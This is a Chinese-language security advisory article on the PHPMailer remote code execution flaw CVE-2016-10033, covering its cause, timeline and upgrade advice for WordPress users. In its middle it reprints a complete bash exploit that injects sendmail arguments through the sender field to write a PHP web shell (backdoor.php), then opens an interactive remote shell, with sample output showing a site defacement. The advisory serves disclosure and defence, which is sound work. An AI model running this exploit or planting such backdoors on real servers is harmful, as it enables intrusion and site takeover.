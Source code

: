 ```yaml
---
layout: post
title: "广泛使用的邮件组件：PHPMailer存在远程代码执行漏洞"
categories:
- 今日头条
tags:
---
```

![](http://p3.pstatp.com/large/141f00033219da1ae1da)

翻译：overXsky

预估稿费：140RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

起因



近日，波兰研究人员 Dawid Golunski 发现了一个存在于PHPMailer中的严重远程代码执行漏洞。该漏洞在昨天的legalhackers.com上公布，但漏洞利用细节的概念验证并未包括在内。

不幸的是在几个小时前，有人向exploit-db和github发布了一个概念验证，演示了如何在PHPMailer库中利用此漏洞，但是出于安全考虑并不针对任何一个正在投入使用中的Web应用程序。

我们正在着手准备发布这个原本在计划之外的更新，以便向PHP开发人员和我们的社区提前警告这个问题。因为我们估计随着更多开发人员和心怀不轨的人查看到上面的概念验证代码后会导致这个事件持续酝酿。

PHPMailer是WordPress中用来发送电子邮件的核心部分。 你可以在wp-includes / class-smtp.php核心文件中找到代码。

不要惊慌



注意：无论对于WordPress的核心还是任何WordPress主题或插件, 目前尚没有公开可行的漏洞利用代码。我们看到的唯一漏洞利用是研究人员针对他们自己的应用程序进行了验证，以此表明PHPMailer中存在此漏洞。 （详情如下）

请不要联系WordPress核心团队、WordPress论坛版主或其他任何人，告诉他们“你的WordPress网站将被利用”，这将引起不必要的恐慌。这项研究目前仍在进行中，我们让您提前意识到这个问题主要有两个原因：

1. 从用户的角度来讲，一旦解决方案发布，就可以准备升级WordPress核心和任何其他受影响的主题和插件。

2. 从开发者的角度来讲，如果他采用了这个版本的包含漏洞的PHPMailer，就可以开始着手修补代码，以便尽快发布给用户。

漏洞细节



如果你不熟悉RCE漏洞，那么这将是最糟糕的情况。在WordPress的历史上所有严重的漏洞都是远程代码执行漏洞，它们允许攻击者在受害者网站上执行自己的代码从而控制整个网站。

我们对PHPMailer中受影响的代码进行了简要分析。 为了利用此漏洞，攻击者似乎需要能够控制发件人的电子邮件地址。

PHPMailer中的弱点代码和修复代码的片段如下所示：

![](http://p1.pstatp.com/large/141a0006ee485d13a0ec)

来源：GitHub

在这个包含漏洞的PHPMailer（PHPMailer < 5.2.18）版本中，发件人的电子邮件地址在传输时没有转义为shell命令。如此一来，攻击者就可以在发件人的电子邮件中增加shell命令以便在目标机器或网站上执行恶意代码。

PHPMailer的Docker复现环境（附POC）：https://github.com/opsxcq/exploit-CVE-2016-10033

Exploit



123456789101112131415161718192021222324252627#!/bin/bash# CVE-2016-10033 exploit by opsxcq# https://github.com/opsxcq/exploit-CVE-2016-10033echo '[+] CVE-2016-10033 exploit by opsxcq'if [ -z "$1" ]then echo '[-] Please inform an host as parameter' exit -1fihost=$1echo '[+] Exploiting '$hostcurl -sq 'http://'$host -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\nvulnerables@ -OQueueDirectory=/tmp -X/www/backdoor.php\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nPwned\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n' >/dev/null && echo '[+] Target exploited, acessing shell at http://'$host'/backdoor.php'cmd='whoami'while [ "$cmd" != 'exit' ]do echo '[+] Running '$cmd curl -sq http://$host/backdoor.php?cmd=$(echo -ne $cmd | base64) | grep '|' | head -n 1 | cut -d '|' -f 2 | base64 -d echo read -p 'RemoteShell> ' cmddoneecho '[+] Exiting'

To exploit this target just run:

1./exploit host:port

If you are using this vulnerable image, you can just run:

1./exploit localhost:8080

After the exploitation, a file called backdoor.php will be stored on the root folder of the web directory. And the exploit will drop you a shell where you can send commands to the backdoor:

12345678./exploit.sh localhost:8080[+] CVE-2016-10033 exploit by opsxcq[+] Exploiting localhost:8080[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php[+] Running whoamiwww-dataRemoteShell> echo 'Defaced' > /www/index.php[+] Running echo 'Defaced' > /www/index.php

PHPMailer验证截图



![](http://p3.pstatp.com/large/141c0002f2baf71c7f95)

如何应对



我们会向订阅者和客户发邮件预警。WordPress核心团队目前正在开发一个将包含在WordPress核心安全发布版本中的修复程序。尚没有确切的发布时间，但会尽量在24小时之内。

一旦发布，请尽快将WordPress核心进行升级。

如果在你自己的PHP应用、主题、插件中还在使用早于5.2.18版本的PHPMailer，请立即升级到PHPMailer 5.2.18或更高版本。

如果你是WordPress主题或插件开发人员，并且在你的插件或主题代码中包含了早期版本的PHPMailer拷贝，则需要立即更新到PHPMailer 5.2.18或更新版本并向客户发布修订。

漏洞历程时间线



1. 前不久在WordPress核心中发布了一个问题讨论，其中包括了一个修补程序来解决这个问题。它可以将使用PHPMailer 5.2.14的WP核心更新到5.2.19。但这只是一个建议的补丁，并不是官方的最终修复。

2. 你可以在github上找到解决PHPMailer中这个问题的代码变动，它们十分清楚地描述了问题在于被发送到shell命令中的发送方电子邮件地址未转义。

3. 概念漏洞的基本证明也已发布到exploit-db，其链接到在github上的此漏洞利用的更详细的演示。研究人员已经建立了一个包含此漏洞的Web应用程序，然后为自己的应用程序创建了一段利用代码。这显然不是一个真实世界的PoC，但它展示了PHPMailer的弱点，并为真实世界的PoC铺平了道路。

4. 发现这个漏洞的研究员的报告中显示：

“研究人员还为流行的开源应用程序（部署在在互联网上的一百多万台服务器上）开发了一个未经认证的RCE漏洞作为现实世界开发的PoC。它可能在供应商修复漏洞后再发布。

5. 这个问题昨天发布到Hackaday和今天早些时候的The Hacker News。

6. 它正在Twitter上广泛讨论。[需要科学上网]

7. 它正在WP Slack #forums和#core上被讨论。 [需要登录]

8. Hacker News上也在讨论。

9. 它被发布到Reddit / r / netsec上，那里也在讨论。

10. 我们期望它将在人们进入工作日之后成为主流媒体的焦点。